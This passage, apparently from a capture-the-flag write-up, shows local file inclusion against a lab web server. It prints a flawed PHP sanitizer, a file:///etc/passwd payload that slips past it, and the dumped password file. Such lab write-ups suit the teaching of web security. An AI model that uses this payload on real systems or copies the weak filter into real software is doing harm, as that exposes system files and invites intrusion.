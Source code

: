 ## Port 80

The web page is pretty basic and is not really offering much functionality (Not good for us) but I noticed something in the URL: `http://10.10.11.154/index.php?page=default.html`.

Looks like that `index.php` is including files in order to show the page. Trying to use something like `../../../../../../etc/passwd` does not work but I was able to retrieve the `index.php` file itself:

```php
# http://10.10.11.154/index.php?page=index.php

<?php
function sanitize_input($param) {
    $param1 = str_replace("../","",$param);
    $param2 = str_replace("./","",$param1);
    return $param2;
}

$page = $_GET['page'];
if (isset($page) && preg_match("/^[a-z]/", $page)) {
    $page = sanitize_input($page);
} else {
    header('Location: /index.php?page=default.html');
}

readfile($page);
?>
```

The code is sanitizing the `page` parameter and that is what was messing me up earlier. The thing is that it is a custom function and it is not covering all the possibilities so using the `file://` protocol is enough to get LFI:

```bash
# http://10.10.11.154/index.php?page=file:///etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:101:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:105::/nonexistent:/usr/sbin/nologin
_chrony:x:105:112:Chrony daemon,,,:/var/lib/chrony:/usr/sbin/nologin
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
vagrant:x:1000:1000::/vagrant:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
dev:x:1001:1001::/home/dev:/bin/bash
```